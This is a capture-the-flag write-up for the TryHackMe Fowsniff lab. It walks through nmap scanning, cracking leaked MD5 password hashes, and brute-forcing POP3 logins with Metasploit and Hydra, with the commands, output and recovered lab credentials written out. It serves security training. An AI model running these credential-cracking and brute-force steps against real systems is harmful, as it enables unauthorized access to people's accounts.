 # Fowsniff CTF | Write-up (THM)

![fowsniff_ctf](https://github.com/user-attachments/assets/de0f68ca-d3eb-4048-a092-f0a648951d6a)

## Enumeration
#### On deploying the machine in the room, I get the following IP address for the machine: ```10.10.157.167```
#### So lets try to find out what ports and services are open using nmap . The command I use generally for nmap is 
```
nmap -sV -vv <machine_ip>
```
#### So lets run that scan here: ```nmap -sV -vv 10.10.157.167``` and we see the following results:
![image](https://github.com/user-attachments/assets/6ebb06bc-c4f5-4590-b5b9-6a0cd87bf7f1)

#### As we can see, ports 80, 110 and 143 are the ports which seem to be open from the common ports. 
Port 80 is for HTTP. <br>
Port 110 is for POP3.<br>
Port 143 for IMAP.<br>

#### Lets take a look at the website  .
![image](https://github.com/user-attachments/assets/ca653db2-966c-4953-bf95-021068575ce5)
#### On the page we see that Fowsniff's internal system has been compromised and employee usernames and passwords may have been exposed. Also, the attackers managed to hack the official ```Twitter account @fowsniffcorp```, and sensitive information may have been exposed by the attackers through this account! Let's see if they actually did it 

#### When checking the Twitter account ```@fowsniffcorp```, we see:
![image](https://github.com/user-attachments/assets/8cc0076b-1fdb-4be5-8ff5-10c7b241feab)
#### It seems to have been hacked, as expected. The attacker seems to have leaked the passwords as can be seen in the pinned tweet. Let's open the pastebin link to see the file.

By going to ```https://pastebin.com/NrAqVeeX``` we get the following password hashes with email addresses:
```
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e
Fowsniff Corporation Passwords LEAKED!
FOWSNIFF CORP PASSWORD DUMP!
Here are their email passwords dumped from their databases.
They left their pop3 server WIDE OPEN, too!
MD5 is insecure, so you shouldn't have trouble cracking them but I was too lazy haha =P
```
#### Since these are all MD5 encrypted passwords, we can try to crack them. But before we do that, I just wanted to point out this recent tweet from the hacked FowSniff Corp account:
![image](https://github.com/user-attachments/assets/26b02afe-1716-44a1-85fd-654d317c04d9)
#### This indicates that the sysadmin has the following credentials:

stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd

## Hash Cracking
#### Let's crack this hash using an online tool, ```CrackStation```
![image](https://github.com/user-attachments/assets/c9ebf919-1fd9-4166-821b-c40e017a5958)

#### As we can see, CrackStation was able to crack all the partitions except one, which is the one for the system administrator.

#### Now lets try to see if we can brute force the pop3 login using metasploit, as asked in one of the questions in the room.
On opening ```msfconsole``` and doing ```search pop3``` , we get the first option as ```auxiliary/scanner/pop3/pop3_login``` . Seems like we can brute force email logins using this module.
Lets use this module to brute force the login. First, select that module to use using ```use auxiliary/scanner/pop3/pop3_login``` . (Tip: we can also use the module # in the search results, 0 here, like ```use 0``` to directly select the corresponding module number).

#### Now once we selected to use the module, we can show the options we need to set using ```show options``` .

![image](https://github.com/user-attachments/assets/c62ca615-6885-44a8-889e-76e83bbc103f)

#### Use Metasploit module for brute forcing the POP3 service:
```
msfconsole
use auxiliary/scanner/pop3/pop3_login
set RHOSTS (the machine we are attacking)
set USER_FILE username.txt
set PASS_FILE password.txt
run
```
![image](https://github.com/user-attachments/assets/03f4c981-785e-4d90-9ca5-1a3d2a701ce8)
POP3 Username and Password brute force results

##### it seems worked.
```
seina:scoobydoo2
```
## However, ```Hydra``` is faster
```
 hydra -L usernames.txt -P passwords.txt pop3://<machine_ip>
```

```
hydra -L usernames.txt -P passwords.txt pop3://10.10.157.167
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-03 19:05:30
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 72 login tries (l:9/p:8), ~5 tries per task
[DATA] attacking pop3://10.10.137.20:110/
[110][pop3] host: 10.10.137.20   login: seina   password: scoobydoo2
1 of 1 target successfully completed, 1 valid password found
```
#### We confirm that 1 account is still valid: ```seina:scoobydoo2```
